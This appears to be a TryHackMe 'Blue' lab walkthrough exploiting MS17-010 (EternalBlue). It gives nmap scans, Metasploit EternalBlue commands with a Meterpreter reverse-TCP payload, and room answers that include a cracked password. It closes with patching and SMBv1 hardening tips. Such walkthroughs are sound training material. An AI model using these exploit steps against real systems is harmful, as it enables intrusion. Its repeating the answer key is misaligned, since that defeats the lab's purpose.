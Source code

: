 # TryHackMe: Blue – Walkthrough

![Banner](images/win7-wallpaper-small.png)

Room Link: https://tryhackme.com/room/blueDifficulty: Beginner / IntermediateFocus: Exploiting MS17-010 (EternalBlue) on a Windows VMTools:

use : Kali Linux (or any pentest distro)

Tools : Nmap, Metasploit Framework, SMB enumeration scripts


# Table of Contents

1: Overview & Setup

2: Network Scanning & Enumeration

3: Vulnerability Verification (MS17-010)

4: Exploitation with Metasploit

5: Gaining a Meterpreter Shell

6: Capturing Flags & Room Questions

7: Mitigation & Hardening Tips

## 1. Overview & Setup

Join the VPN

<pre> sudo openvpn --config ~/Downloads/tryhackme.ovpn </pre>

![banner](images/1.png)

### Confirm connectivity

# Check your tun0 interface
<pre> ifconfig </pre>  

![banner](images/3.png)

# Replace with the room's gateway to verify
<pre> ping 10.10.10.10 </pre> 

Note the target IP (you’ll see it in the room’s instructions).

In this walkthrough we'll call it <TARGET_IP>

## 2. Network Scanning & Enumeration

### 2.1 Port Scan

<pre> nmap -sV -A <TARGET_IP> </pre>

![Banner](images/2.png)

Finds all open TCP ports (e.g., 135, 139, 445, 3389)

### 2.2 Service & Version Detection

<pre> nmap -sC -sV <TARGET_IP> </pre>

-sC-runs default scripts

-sV-detects versions

### 2.3 SMB-Specific Enumeration

<pre> nmap -sC -sV --script vlun <TARGET_IP> </pre>

--script vuln-runs Nmap scripts to detect known vulnerabilities on the target — no exploitation, just scanning.

![Banner](images/4.png)

## 3. Vulnerability Verification (MS17-010)

Check the nmap/smb-enum.txt output. You should see:

| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE-2017-0143

If State: VULNERABLE appears, proceed.

## 4. Exploitation with Metasploit

Launch Metasploit

<pre> msfconsole </pre>

![Banner](images/5.png)

Search for EternalBlue module

<pre> search ms17_010 </pre>

![Banner](images/6.png)

Select the exploit

![Banner](images/7.png)

use exploit/windows/smb/ms17_010_eternalblue

### Configure options

![Banner](images/8.png)

set RHOSTS <TARGET_IP>
set LHOST <YOUR_TUN0_IP>
set LPORT 4444           # or any free port
set PAYLOAD windows/x64/meterpreter/reverse_tcp

Optional – check targets

show targets

Run the exploit

### exploit

![Banner](images/9.png)

You should see a meterpreter session open.

## 5. Gaining a Meterpreter Shell

Once the exploit succeeds:

![Banner](images/10.png)

[*] Meterpreter session 1 opened (10.10.14.5:4444 -> 10.10.10.42:49155) at 2025-07-03 19:30:00 +0530

Inside Meterpreter:

meterpreter > pwd

It shows where you are

## 6. Capturing Flags & Room Questions

How many ports are open with a port number under 1000?

ans-3

What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

ans-ms17-010

Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

ans-exploit/windows/smb/ms17_010_eternalblue

Show options and set the one required value. What is the name of this value? (All caps for submission)

ans-RHOSTS

 What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 

 ans-post/multi/manage/shell_to_meterpreter

 Select this (use MODULE_PATH). Show options, what option are we required to change?

 ans-SESSION

Copy this password hash to a file and research how to crack it. What is the cracked password?

ans-alqfna22

Flag1? This flag can be found at the system root. 

![Banner](images/11.png)

Flag2? This flag can be found at the location where passwords are stored within Windows.

![Banner](images/12.png)

flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. 

![Banner](images/13.png)

## 8. Mitigation & Hardening Tips

Patch Management: Apply MS17-010 patch (KB4013389)

SMBv1: Disable if not required

Network Segmentation: Limit SMB traffic

Endpoint Monitoring: Alert on unusual SMB behavior


🎉 Congrats! You’ve fully exploited and documented the Blue machine.Feel free to open an issue or PR if you find anything to improve!
